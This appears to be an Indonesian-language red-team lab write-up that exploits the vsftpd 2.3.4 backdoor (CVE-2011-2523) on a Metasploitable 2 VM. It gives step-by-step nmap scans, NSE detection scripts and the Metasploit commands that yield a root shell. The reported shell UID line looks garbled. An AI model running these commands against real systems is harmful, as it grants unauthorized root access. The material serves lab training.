

# Exploit vsftpd 2.3.4 Backdoor di Metasploitable 2 (CVE-2011-2523)

## Overview
vsftpd 2.3.4 adalah versi FTP daemon dengan backdoor tersembunyi pada koneksi port 6200/tcp yang memungkinkan command execution sebagai root. Di Metasploitable 2 (VM vulnerable Linux), port 21 (FTP) terbuka dengan anonymous access. Exploit ini melibatkan:
- **Nmap**: Scan port, operating system dan service detection.
- **NSE (Nmap Scripting Engine)**: Deteksi login pengguna anonymous dengan `ftp-anon.nse` dan backdoor dengan script `ftp-vsftpd-backdoor`.
- **Metasploit**: Trigger backdoor untuk shell root.

**Target**: Metasploitable 2 VM.  
**Risiko**: Hanya untuk lab etis; jangan gunakan di sistem produksi.

## Tools Used

## Steps
1. **Periksa IP Address pada Host Local**:
   > Command Line: `ip a` (tampilkan konfigurasi IP Address).
   
   

2. **Temukan Host Target**:
   > Command Line: `nmap -sn 192.168.56.0/24` (ping scan).
   
   

3. **Deteksi Ports Terbuka, Services dan Operating System**:
   > Command Line: `nmap -sS -sV -O 192.168.56.101` (SYN scan, service version dan operating system detection).

   

4. **Cari NMAP NSE untuk vsftpd**:
   > Command Line: `ls -al /usr/share/nmap/scripts | grep vsftpd` atau `ls -al /usr/share/nmap/scripts | grep ftp`.

   

5. **Deteksi Login Anonymous**:
   > Command Line: `nmap --script=/usr/share/nmap/scripts/ftp-anon.nse 192.168.56.101 >> ftp-anon.txt` (NSE anonymous ftp login detection).

   

6. **Validasi Anonymous Login**:
   > Command Line: `tnftp 192.168.56.101`.  
   > Result: Login pengguna anonymous berhasil.

   

7. **Deteksi Backdoor**:
   > Command Line: `nmap --script=/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse 192.168.56.101 >> vsftpd-backdoor.txt` (NSE vsftpd backdoor detection).

   

8. **Cari Module Exploit untuk Backdoor**:
   > Command Line: `searchsploit vsftpd` (search metasploit module untuk vsftpd).

   

9. **Exploit dengan Metasploit Framework**:
   > Buka metasploit framework: `sudo msfconsole`.  
   > Gunakan module: `use exploit/unix/ftp/vsftpd_234_backdoor`.  
   > Set options: `set RHOSTS 192.168.56.101`.  
   > Jalankan: `exploit`.  
   > Result: Backdoor triggered, dapat root shell (UID: uid=0(1000) gid=0(1000), target:192.168.56.101:6200).

   

   

   

   

   

## References
- [Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
- [Nmap NSE Script](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)

[Back to Red Team Labs](https://github.com/lilulil-akbar/red-team-labs)
